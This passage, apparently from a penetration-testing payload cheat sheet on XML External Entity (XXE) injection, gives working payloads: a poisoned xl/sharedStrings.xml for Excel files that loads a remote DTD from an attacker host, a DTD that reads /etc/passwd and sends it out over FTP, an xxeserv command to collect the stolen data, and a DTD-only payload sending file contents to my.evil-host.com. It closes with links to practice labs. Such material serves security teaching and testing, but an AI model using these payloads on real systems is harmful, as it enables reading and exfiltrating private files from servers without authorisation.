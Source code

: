 Alternatively, add your payload in `xl/sharedStrings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file.
Instead we build the document once and then change the DTD.
And using FTP instead of HTTP allows to retrieve much larger files.

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

Serve DTD and receive FTP payload using [staaldraad/xxeserv](https://github.com/staaldraad/xxeserv):

```ps1
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### XXE Inside DTD file

Most XXE payloads detailed above require control over both the DTD or `DOCTYPE` block as well as the `xml` file.
In rare situations, you may only control the DTD file and won't be able to modify the `xml` file. For example, a MITM.
When all you control is the DTD file, and you do not control the `xml` file, XXE may still be possible with this payload.

```xml
<!-- Load the contents of a sensitive file into a variable -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- Use that variable to construct an HTTP get request with the file contents in the URL -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```


## Labs

* [Root Me - XML External Entity](https://www.root-me.org/en/Challenges/Web-Server/XML-External-Entity)
* [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
    * [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
    * [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
    * [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
    * [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
    * [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
    * [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
    * [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)